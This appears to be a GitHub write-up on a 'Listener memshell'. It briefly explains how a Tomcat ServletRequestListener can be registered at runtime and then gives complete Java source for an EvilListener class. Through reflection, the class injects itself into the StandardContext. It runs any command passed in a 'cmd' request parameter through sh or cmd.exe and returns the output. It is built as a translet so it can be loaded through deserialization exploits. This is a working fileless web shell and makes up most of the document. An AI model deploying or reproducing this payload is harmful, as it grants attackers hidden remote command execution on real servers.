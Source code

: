 # Listener memshell

## Analysis

The `ServletRequestListener` interface can realize the monitoring of the `Request` object creation and destruction. Therefore, it's suitable to be used as a memory shell.

The `Listener` is added by calling the `addApplicationEventListener()` method of the `StandardContext` class dynamically.

In addition, we must achieve the `requestInitialized()` method and the `requestDestroyed()` method, and write malicious code in the `requestDestroyed()` method. The `Request` and `Response` objects can be obtained from the `ServletRequestEvent` class.

## Code

```java
public class EvilListener extends AbstractTranslet implements ServletRequestListener {
    static {
        WebappClassLoaderBase webappClassLoaderBase = (WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();
        try {
            Field field = webappClassLoaderBase.getClass().getSuperclass().getDeclaredField("resources");
            field.setAccessible(true);
            WebResourceRoot resources = (WebResourceRoot) field.get(webappClassLoaderBase);
            StandardContext standardContext = (StandardContext) resources.getContext();

            EvilListener listener = new EvilListener();
            standardContext.addApplicationEventListener(listener);

            System.out.println("Inject success");
        } catch (NoSuchFieldException | IllegalAccessException e) {
            e.printStackTrace();
        }
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {
    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {
    }

    @Override
    public void requestDestroyed(ServletRequestEvent sre) {
//        ServletRequestListener.super.requestDestroyed(sre);
        System.out.println("Evil requestDestroyed");
        HttpServletRequest req = (HttpServletRequest) sre.getServletRequest();
        try {
            Field field = req.getClass().getDeclaredField("request");
            field.setAccessible(true);
            Request request = (Request) field.get(req);
            Response response = request.getResponse();

            if (req.getParameter("cmd") != null) {
                String cmd = req.getParameter("cmd");
                boolean isLinux = true;
                String osTyp = System.getProperty("os.name");
                if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                    isLinux = false;
                }
                String[] cmds = isLinux ? new String[]{"sh", "-c", cmd} : new String[]{"cmd.exe", "/c", cmd};
                InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
                Scanner s = new Scanner(in).useDelimiter("\\a");
                String output = s.hasNext() ? s.next() : "";
                PrintWriter out = response.getWriter();
                out.println(output);
                out.flush();
                out.close();
            }
        } catch (NoSuchFieldException | IOException | IllegalAccessException e) {
            e.printStackTrace();
        }
    }

    @Override
    public void requestInitialized(ServletRequestEvent sre) {
    }
}
```

